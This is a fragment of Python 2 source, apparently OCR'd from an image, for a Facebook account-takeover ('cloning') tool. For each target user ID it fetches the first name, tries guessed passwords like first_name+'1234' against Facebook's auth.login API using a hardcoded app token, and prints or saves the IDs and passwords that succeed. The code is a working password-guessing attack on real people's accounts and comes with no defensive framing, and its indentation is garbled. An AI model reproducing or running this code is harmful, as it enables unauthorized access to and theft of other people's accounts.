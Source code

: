 			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;97mFill in correctly"
		pilih_super()

	
	print "\033[1;36;40m[✺] Total IDs : \033[1;95m"+str(len(id))
	jalan('\033[1;34;40m[✺] Please Wait...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;32;40m[✺] 03170424820\033[1;95m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;95m        ❈     \033[1;95mTo Stop Process Press CTRL+Z \033[1;95m    ❈"
	print "   \033[1;31;48m●🏴‍☠️══════════════════◄►══════════════════🏴‍☠️●"

	jalan('                                         \033[1;95mcp id open 7day start cloning Wait...')
	print  "  \033[1;36;48m ●🏴‍☠️══════════════════◄►══════════════════🏴‍☠️●" 

	for o in titik:
		print("\r\033[1;32;40m[✺] Cloning\033[1;95m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;95m        ❈     \033[1;97mTo Stop Process Press CTRL+Z \033[1;95m    ❈"
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass 
		try:													
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)												
			b = json.loads(a.text)												
			pass1 = b['first_name'] + '1234'												
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			q = json.load(data)												
			if 'access_token' in q:
				x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				z = json.loads(x.text)
				print '\x1b[1;91m[!] \x1b[1;92m[OK]'											
				print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b['name']											
				print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user											
				print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass1 + '\n'											
				oks.append(user+pass1)
                        else:
			        if 'www.facebook.com' in q["error_msg"]:
				    print '\x1b[1;91m[!] \x1b[1;96m[Checkpoint]'
				    print '\x1b[1;92m[!] \x1b[1;97mName \x1b[1;97m    : \x1b[1;97m' + b ['name']
				    print '\x1b[1;93m[!] \x1b[1;97mID \x1b[1;97m      : \x1b[1;97m' + user
				    print '\x1b[1;94m[!] \x1b[1;91mPassword \x1b[1;97m: \x1b[1;97m' + pass1 + '\n'
				    cek = open("out/super_cp.txt", "a")
				    cek.write("ID:" +user+ " Pw:" +pass1+"\n")
				    cek.close()
				    cekpoint.append(user+pass1)
                                else:
				    pass2 = b['first_name'] + '123'										
                                    data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")												
			            q = json.load(data)												
			            if 'access_token' in q:	
				            x = requests.get("https://graph.facebook.com/"+user+"?access_token="+q['access_token'])
				            z = json.loads(x.text)
				            print '\x1b[1;94m[!] \x1b[1;92m[OK]'											